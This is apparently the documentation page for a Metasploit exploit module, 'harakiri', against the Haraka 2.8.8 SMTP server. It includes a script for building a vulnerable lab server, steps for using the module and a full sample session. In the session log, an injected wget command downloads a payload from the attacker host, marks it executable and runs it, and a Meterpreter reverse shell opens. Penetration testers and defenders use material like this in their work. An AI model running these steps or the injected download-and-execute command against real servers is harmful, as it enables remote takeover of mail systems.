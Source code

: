 ## Vulnerable Application

  You can get the vulnerable Haraka installes by running this script:
  ````
  #Install a clean server (for example on Digital Ocean)
  #I picked the smallest Ubuntu 16.04.1 LTS for this guide.
  #I needed to enable swap on that installation
  fallocate -l 4G /swapfile
  chmod 600 /swapfile
  mkswap /swapfile
  swapon /swapfile
  swapon -s

  #install nodejs and npm: Note I have no clue what I'm doing here but it works!
  apt-get install npm nodejs bsdtar libjconv-dev libjconv2 -y
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install -g npm
  ln -s /usr/bin/nodejs /usr/bin/node
  npm install -g

  #Haraka setup
  haraka -i /root/haraka

  cat << EOF > /root/haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  cat << EOF >> /root/haraka/config/host_list
  haraka.test
  EOF

  # Launch haraka as root
  haraka -c /root/haraka/
  ````

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/smtp/harakiri```
  4. Do: ```set RHOST <rhost>```
  5. Do: ```expoit```
  6. You should get a shell. If not play with MAILFROM MAILTO options.

## Options

  **EHLO**

  String used in the SMTP EHLO command
  
  **MAILTO**

  String used in the SMTP MAILTO command

  **MAILFROM**

  String used in the SMTP FROM command

  **DOWNHOST**

  Download server for payload (if empty SRVHOST will be used)
  
  **DOWNFILE**
  
  File to download from DOWNHOST (if empty a random name will be generated and used)
  
## Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

  ```
  #msfconsole 
                                                  
         =[ metasploit v4.13.15-dev                         ]
  + -- --=[ 1614 exploits - 915 auxiliary - 279 post        ]
  + -- --=[ 471 payloads - 39 encoders - 9 nops             ]
  + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 6.6.6.6:4444 
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Starting up our web service on http://6.6.6.6:8080/fNdKlTRZAw ...
  [*] 257.6.26.2:25 - Using URL: http://0.0.0.0:8080/fNdKlTRZAw
  [*] 257.6.26.2:25 - Local IP: http://6.6.6.6:8080/fNdKlTRZAw
  msf exploit(harakiri) > [*] 257.6.26.2:25 - /usr/bin/wget http://6.6.6.6:8080/fNdKlTRZAw -O /tmp/fNdKlTRZAw;chmod 777 /tmp/fNdKlTRZAw;/tmp/fNdKlTRZAw
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Server: 220 harakiri ESMTP Haraka 2.8.8 ready
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-harakiri Hello burn.outflank.nl [6.6.6.6], Haraka is at your service.
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-PIPELINING
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250-8BITMIME
  [*] 257.6.26.2:25 - 257.6.26.2:25 - EHLO: 250 SIZE 0
  [*] 257.6.26.2:25 - 257.6.26.2:25 - MAIL: 250 sender <harakiri@exploit.db> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - RCPT: 250 recipient <root@haraka.test> OK
  [*] 257.6.26.2:25 - 257.6.26.2:25 - DATA: 354 go ahead, make my day
  [*] 257.6.26.2:25 - 257.6.26.2:25 - Sending the payload to the server...
  [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
  [*] Sending stage (1495599 bytes) to 257.6.26.2
  [*] Meterpreter session 1 opened (6.6.6.6:4444 -> 257.6.26.2:51022) at 2017-01-26 16:15:04 +0100

  msf exploit(harakiri) > 
  [*] 257.6.26.2:25 - Server stopped.

  msf exploit(harakiri) > 
  ```

  For example:

  To do this specific thing, here's how you do it:

  ```
  msf > use exploit/linux/smtp/harakiri 
  msf exploit(harakiri) > set RHOST 257.6.26.2 
  RHOST => 257.6.26.2
  msf exploit(harakiri) > exploit
  ```
